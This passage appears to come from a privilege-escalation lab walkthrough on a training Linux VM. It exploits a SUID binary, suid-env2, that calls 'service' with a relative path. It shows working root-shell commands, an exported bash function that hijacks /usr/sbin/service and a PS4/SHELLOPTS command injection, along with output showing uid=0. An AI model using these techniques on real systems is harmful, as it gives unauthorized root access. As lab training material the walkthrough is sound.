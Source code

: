 ~~~
465223  100 -rwsr-xr-x   1 root     root        94992 Dec 13  2014 /sbin/mount.nfs
~~~

3. In command prompt type: `strings /usr/local/bin/suid-env2`
4. From the output, notice the functions used by the binary.

~~~
TCM@debian:~$ strings /usr/local/bin/suid-env2
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
~~~

**Exploitation Method #1**

Linux VM

1. In command prompt type: `function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`
2. In command prompt type: `export -f /usr/sbin/service`
3. In command prompt type: `/usr/local/bin/suid-env2`

~~~
TCM@debian:~$ function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
TCM@debian:~$ export -f /usr/sbin/service
TCM@debian:~$ /usr/local/bin/suid-env2
bash-4.1# id
uid=0(root) gid=0(root) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
~~~

**Exploitation Method #2**

Linux VM

1. In command prompt type: `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'`

~~~
TCM@debian:~$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
cp: cannot create regular file `/tmp/bash': Permission denied
/usr/local/bin/suid-env2
/usr/sbin/service apache2 start
basename /usr/sbin/service
VERSION='service ver. 0.91-ubuntu1'
basename /usr/sbin/service
USAGE='Usage: service < option > | --status-all | [ service_name [ command | --full-restart ] ]'
SERVICE=
ACTION=
SERVICEDIR=/etc/init.d
OPTIONS=
'[' 2 -eq 0 ']'
cd /
'[' 2 -gt 0 ']'
case "${1}" in
~~~